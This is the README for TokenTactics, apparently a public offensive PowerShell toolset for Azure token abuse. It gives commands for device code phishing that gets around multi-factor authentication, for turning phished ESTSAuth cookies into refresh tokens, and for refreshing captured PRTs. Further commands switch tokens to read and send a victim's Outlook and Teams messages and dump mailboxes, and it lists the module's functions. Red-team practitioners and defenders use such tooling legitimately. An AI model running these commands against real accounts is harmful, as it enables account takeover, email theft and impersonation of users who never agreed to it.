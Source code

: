 # TokenTactics
Azure JSON Web Token ("JWT") Manipulation Toolset

Azure access tokens allow you to authenticate to certain endpoints as a user who signs in with a device code. Even if they used multi-factor authentication. Once you have a user's access token, it may be possible to access certain apps such as Outlook, SharePoint, OneDrive, MSTeams and more. 

For instance, if you have a Graph or MSGraph token, you can then connect to Azure and dump users, groups, etc. You could then, depending on conditional access policies, switch to an Azure Core Management token and run [AzureHound](https://github.com/BloodHoundAD/AzureHound). Then, switch to an Outlook token and read/send emails or MS Teams and read/send messages!

For more on Azure token types [Microsoft identity platform access tokens](https://docs.microsoft.com/en-us/azure/active-directory/develop/access-tokens)

There are some example requests to endpoints in the resources folder. There is also an example phishing template for device code phishing.

You may also use these tokens with [AAD Internals](https://o365blog.com/aadinternals/) as well. We strongly recommended to check this amazing tool out.

## Installation and Usage

```Import-Module .\TokenTactics.psd1```

```Get-Help Get-Azure-Token```

```Invoke-RefreshToSubstrateToken```

### Generate Device Code

```Get-AzureToken -Client MSGraph```
Once the user has logged in, you'll be presented with the JWT and it will be saved in the $response variable. To access the access token use ```$response.access_token``` from your PowerShell window to display the token. You may also display the refresh token with ```$response.refresh_token```. Hint: You'll want the refresh token to keep refreshing to new access tokens! By default, Get-AzureToken results are logged to TokenLog.log.

#### DOD/Mil Device Code
```Get-AzureToken -Client DODMSGraph```

### Get a Refresh Token from ESTSAuth* Cookie 

```Get-AzureTokenFromESTSCookie -estsAuthCookie "0.AbcApTk..." ```
This module uses authorization code flow to obtain an access token and refresh token using ESTSAuth (or ESTSAuthPersistent) cookie. Useful if you have phished a session via Evilginx or have otherwise obtained this cookie. 
*Note: This may not work in all cases as it may require user interaction. If this is the case, either use the Device Code flow above, or try `roadtx interactiveauth --estscookie`*

### Refresh or Switch Tokens

```Invoke-RefreshToOutlookToken -domain myclient.org -refreshToken 0.A```

```$OutlookToken.access_token```

### Connect
```Connect-AzureAD -AadAccessToken $response.access_token -AccountId user@myclient.org```

### Refresh a PRT

Once a PRT has been captured, auth with roadrecon to obtain your access_token and refresh_token. When refreshing with TokenTactics, use ClientID 1b730954-1685-4b74-9bfd-dac224a7b894.

```Invoke-RefreshToMSGraphToken -domain myclient.org -ClientId 1b730954-1685-4b74-9bfd-dac224a7b894 -refreshToken 0.A```

### Clear tokens
```Invoke-ClearToken -Token All```

### Commands
```powershell
Get-Command -Module TokenTactics

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Get-AzureToken                                     0.0.2      TokenTactics
Function        Get-AzureTokenFromESTSCookie                       0.0.2      TokenTactics
Function        Invoke-ClearToken                                  0.0.2      TokenTactics
Function        Invoke-DumpOWAMailboxViaMSGraphApi                 0.0.2      TokenTactics
Function        Invoke-ForgeUserAgent                              0.0.2      TokenTactics
Function        Invoke-OpenOWAMailboxInBrowser                     0.0.2      TokenTactics
Function        Invoke-ParseJWTtoken                               0.0.2      TokenTactics
Function        Invoke-RefreshToAzureCoreManagementToken           0.0.2      TokenTactics
Function        Invoke-RefreshToAzureManagementToken               0.0.2      TokenTactics
Function        Invoke-RefreshToDODMSGraphToken                    0.0.2      TokenTactics
Function        Invoke-RefreshToGraphToken                         0.0.2      TokenTactics
Function        Invoke-RefreshToMAMToken                           0.0.2      TokenTactics
Function        Invoke-RefreshToMSGraphToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToMSManageToken                      0.0.2      TokenTactics
Function        Invoke-RefreshToMSTeamsToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeAppsToken                    0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeManagementToken              0.0.2      TokenTactics
Function        Invoke-RefreshToOutlookToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToSharepointOnlineToken              0.0.2      TokenTactics
Function        Invoke-RefreshToSubstrateToken                     0.0.2      TokenTactics
Function        Invoke-RefreshToYammerToken                        0.0.2      TokenTactics
```

## Authors and contributors
- [@0xBoku](https://github.com/boku7) co-author and researcher.

TokenTactic's methods are highly influenced by the great research of Dr Nestori Syynimaa at https://o365blog.com/.

